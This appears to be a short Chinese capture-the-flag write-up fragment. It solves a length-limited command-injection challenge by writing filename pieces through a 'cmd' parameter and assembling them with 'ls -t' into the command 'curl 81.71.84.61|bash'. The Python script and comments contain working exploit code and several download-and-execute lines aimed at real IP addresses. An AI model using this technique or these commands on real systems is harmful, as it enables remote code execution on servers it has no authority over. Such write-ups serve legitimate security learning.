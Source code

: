 ```bash
 ">bash",
    ">\|\\",
    ">61\\",
    ">84.\\",
    ">71.\\",
    ">81.\\",
    ">\ \\",
    ">rl\\",
    ">cu\\"
```

由于有字符限制，所以按照上述拆分。
最后，执行sh _，然后执行sh y 即可
具体python代码如下：

```python
import requests
baseurl = "http://81.71.84.61:50002/?cmd="
reset = "http://81.71.84.61:50002/?reset"
s = requests.session()
s.get(reset)

# 将ls -t 写入文件_
list=[
    ">ls\\",
    "ls>_",
    ">\ \\",
    ">-t\\",
    ">\>y",
    "ls>>_"
]

# curl 120.79.33.253|bash
# curl 219.152.63.100|bash
# curl 81.71.84.61|bash
list2=[
    ">bash",
    ">\|\\",
    ">61\\",
    ">84.\\",
    ">71.\\",
    ">81.\\",
    ">\ \\",
    ">rl\\",
    ">cu\\"
]


for i in list:
    url = baseurl+str(i)
    s.get(url)


for j in list2:
    url = baseurl+str(j)
    s.get(url)

s.get(baseurl+"sh _")
s.get(baseurl+"sh y")
#s.get(reset)
```
